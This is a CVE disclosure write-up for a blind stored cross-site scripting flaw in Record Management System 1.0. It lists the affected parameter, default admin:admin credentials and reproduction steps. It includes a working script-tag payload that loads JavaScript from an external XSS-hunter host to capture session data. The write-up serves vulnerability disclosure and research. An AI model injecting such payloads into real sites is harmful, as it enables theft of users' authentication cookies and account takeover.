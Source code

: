 # CVE-2023-7135_Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Exploit Title:** CVE-2023-7135_Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7135

## References: 
+ **CVE-2023-7135:** https://vuldb.com/?id.249138
+ https://www.cve.org/CVERecord?id=CVE-2023-7135

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'officename' in "/recordmanagement/main/offices.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Offices: "http://localhost/recordmanagement/main/offices.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Office and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/1a7010d1-375b-4057-887c-f5b77d7b7fc8)
<br>
<br>
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/8ef95f72-c0e4-4dfe-9888-019f74f761a2)
<br>
<br>
![3-3](https://github.com/h4md153v63n/CVEs/assets/5091265/b83ac262-e5b3-4767-931d-06c5baf08efe)
<br>
<br>
![3-4](https://github.com/h4md153v63n/CVEs/assets/5091265/92faa150-3a3c-47c1-a053-033cd70782b6)
<br>
<br>
![3-5](https://github.com/h4md153v63n/CVEs/assets/5091265/0546b16c-44bf-461a-afb0-b128ccde253c)
<br>
<br>
![3-6](https://github.com/h4md153v63n/CVEs/assets/5091265/5110ae7e-b43d-4a1a-a962-84f5c32d6999)
